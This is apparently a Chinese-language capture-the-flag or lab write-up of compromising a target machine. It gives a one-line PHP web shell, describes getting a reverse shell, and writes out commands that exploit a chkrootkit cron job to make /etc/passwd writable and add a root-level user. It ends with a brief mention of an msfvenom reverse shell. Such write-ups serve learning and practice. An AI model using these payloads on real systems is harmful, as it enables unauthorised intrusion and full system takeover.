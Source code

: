 上传一个可以执行命令的php代码

```
<?php system($_GET["cmd"]);?>
```

![image.png](https://s2.loli.net/2025/05/01/d2LH86b7fg3lzDQ.png)

可以使用 

![image.png](https://s2.loli.net/2025/05/01/fUSpbracDtnqNYZ.png)

但反弹不了shell 很离谱

插一个一句话木马

![image.png](https://s2.loli.net/2025/05/01/wCJGjRtY8MHpKmX.png)

![image.png](https://s2.loli.net/2025/05/01/NWkD3vqZ8tozjf2.png)

蚁剑连接成功 然后上传一个反弹shell然后反弹到kali中

## 提权
### chrootkit提权
简单收集一下信息 
![image.png](https://s2.loli.net/2025/05/01/T8adCgiU3XwG6hI.png)


#注意 要检查一个地方 /etc/cron* 计划

![image.png](https://s2.loli.net/2025/05/01/mNyWC2eh1E39rXT.png)

发现有个chrootkit

#注意 chrootkit提权

有个漏洞是这么说的

```
cd /tmp
echo "chmod 777 /etc/passwd" > update
chmod 777 update
cat update

echo 'qq:$1$qq$oMgRCtJEEoFVvNbosRA.B1:0:0::/root:/bin/bash' >> /etc/passwd

```

![image.png](https://s2.loli.net/2025/05/01/e9pVdarAQR6v5Ew.png)

切换到我们新建的root用户就能成功提权

![image.png](https://s2.loli.net/2025/05/01/95gDALMXrFmKfyV.png)

### msf提权
需要创建一个msfvenom 用msf来反弹shell（multi/handler）
